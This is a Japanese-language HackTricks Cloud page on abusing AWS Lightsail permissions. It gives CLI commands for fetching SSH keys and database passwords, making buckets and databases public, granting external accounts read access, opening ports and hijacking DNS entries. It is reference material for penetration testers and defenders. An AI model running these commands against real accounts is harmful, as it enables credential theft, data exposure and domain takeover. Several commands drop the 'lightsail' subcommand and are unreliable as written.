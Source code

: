 # AWS - Lightsail特権エスカレーション

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**PEASSの最新バージョンをダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**をフォローする**。
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **githubリポジトリに送信してください**。

</details>

## Lightsail

Lightsailについての詳細は次を参照してください：

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
重要なことは、Lightsailは**ユーザーに属するIAMロールではなく、AWSが管理するアカウントに属する**ことですので、このサービスを悪用して特権エスカレーションすることはできません。ただし、このサービスにはコード、APIキー、データベース情報などの**機密データ**が含まれている可能性があります。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

この権限を使用すると、インスタンスにアクセスするためのSSHキーを取得できます：
```
aws lightsail download-default-key-pair
```
**潜在的な影響:** インスタンス内の機密情報を見つけることができます。

### `lightsail:GetInstanceAccessDetails`

この権限を持つことで、インスタンスにアクセスするためのSSHキーを生成することができます。
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在的な影響:** インスタンス内の機密情報を見つけることができます。

### `lightsail:CreateBucketAccessKey`

この権限を持つことで、バケットにアクセスするためのキーを取得することができます。
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在的な影響:** バケット内の機密情報を見つけることができます。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

この権限を持つことで、データベースへのアクセスに必要な資格情報を取得することができます。
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在的な影響:** データベース内の機密情報を見つけることができます。

### `lightsail:UpdateRelationalDatabase`

この権限を持つことで、データベースへのアクセスパスワードを変更することができます。

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

データベースが公開されていない場合、次の権限を使用して公開することもできます。

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在的な影響:** データベース内の機密情報を見つけることができます。

### `lightsail:OpenInstancePublicPorts`

この権限は、インターネットにポートを開くことを許可します。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在的な影響:** 機密ポートへのアクセス。

### `lightsail:PutInstancePublicPorts`

この権限は、インターネットへのポートの公開を許可します。ただし、指定されていないポートは閉じられます。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在的な影響:** 機密ポートへのアクセス。

### `lightsail:SetResourceAccessForBucket`

この権限を使用すると、追加の資格情報なしでインスタンスにバケットへのアクセスを許可できます。

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在的な影響:** 機密情報を含むバケットへの新たなアクセスが可能になります。

### `lightsail:UpdateBucket`

この権限を持つ攻撃者は、自分のAWSアカウントに対してバケットへの読み取りアクセスを付与したり、バケットを誰でもアクセス可能な公開状態にすることができます。
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在的な影響:** 機密情報を含むバケットへの新たなアクセスが可能になる可能性があります。

### `lightsail:UpdateContainerService`

この権限を持つ攻撃者は、コンテナサービスからプライベートECRへのアクセスを許可することができます。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在的な影響:** プライベートECRから機密情報を取得する

### `lightsail:CreateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、それを自分のIPアドレスに向ける（サブドメインの乗っ取り）、または自分のIPアドレスを使用してドメインからの電子メールのスプーフィングを許可するSPFレコードを作成することができます。さらに、攻撃者はメインドメインを自分のIPアドレスに設定することもできます。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的な影響:** ドメインの乗っ取り

### `lightsail:UpdateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、それを自分のIPアドレスに向ける（サブドメインの乗っ取り）、または自分自身のIPアドレスを使用してドメインからの電子メールのスプーフィングを許可するSPFレコードを作成することができます。さらに、攻撃者はメインドメインを自分のIPアドレスに設定することもできます。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的な影響:** ドメインの乗っ取り

<details>

<summary><strong>ハックトリックスをサポートして特典を得る！</strong></summary>

* **会社の広告をハックトリックスで見たい**場合や、**PEASSの最新バージョンをダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
